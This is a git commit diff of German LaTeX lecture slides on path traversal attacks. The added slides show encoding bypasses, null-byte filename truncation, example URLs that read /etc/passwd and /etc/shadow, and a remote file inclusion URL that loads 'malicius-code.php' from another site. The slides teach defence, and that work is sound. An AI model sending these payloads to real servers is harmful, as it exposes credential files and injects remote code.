

Before and after one commit to polis89/CryptoPS, LaTeX slides (presentation.tex): pages 17 and 18 of 38 before the commit and pages 17 and 18 of 39 after it, joined at a grey line. The pictures show the PDF file presentation.pdf that the author committed with the source.

Commit message:
added Path traversal attack

```diff
--- a/presentation.tex
+++ b/presentation.tex
@@ -242,9 +244,42 @@
   \end{itemize}
 \end{frame}
 
-\begin{frame}[fragile]{Directory Traversal Attack}
-  Ein HTTP Angriff, bei dem ein Angreifer zugriff auf gesperrte Verzeichnisse gewinnt und Code auserhalb des root Verzeichnisses ausf\"uhrt.
+\begin{frame}[fragile]{Path Traversal Attack}
+  Ein HTTP Angriff, bei dem ein Angreifer Zugriff auf gesperrte Verzeichnisse gewinnt und Code ausserhalb des Web Root Verzeichnisses ausf\"uhrt.
+  \newline
+  \newline
+  Web Container Encoding:
+  \begin{lstlisting}[style=BashStyle]
+  ..%c0%af represents ../
+  ..%c1%9c represents ..\
+  \end{lstlisting}
+
+  Null bytes \%00 k\"onnen injeziert werden um Dateinahmen zu terminieren.
+  \begin{lstlisting}[style=BashStyle]
+  ?file=secret.doc%00.pdf
+  \end{lstlisting}
+  Java sieht .pdf, Betriebssystem sieht .doc
 \end{frame}
 
-\begin{frame}[fragile]{Directory Traversal Attack - Schutzma{\ss}nahmen}
-  test frame
+\begin{frame}[fragile]{Path Traversal Attack - Beispiele}
+  Beispiel Zugriff auf Dateien:
+  \begin{lstlisting}[style=BashStyle]
+  http://some_site.com.br/get-files.jsp?file=report.pdf
+  http://some_site.com.br/some-page.asp?page=index.html
+  \end{lstlisting}
+
+  UNIX Passwort abgreifen:
+  \begin{lstlisting}[style=BashStyle]
+  http://some_site.com.br/../../../../etc/shadow
+  http://some_site.com.br/get-files?file=/etc/passwd
+  \end{lstlisting}
+
+  Auch m\"oglich Dateien und Scripte von externen Websiten einzibinden:
+  \begin{lstlisting}[style=BashStyle]
+  http://some_site.com.br/some-page?page=http:
+    //other-site.com.br/other-page.htm/malicius-code.php
+  \end{lstlisting}
+\end{frame}
+
+\begin{frame}[fragile]{Path Traversal Attack - Schutzma{\ss}nahmen}
+  \begin{itemize}
```
Also changed, not shown: presentation.pdf, presentation.tex (17 more changed lines).
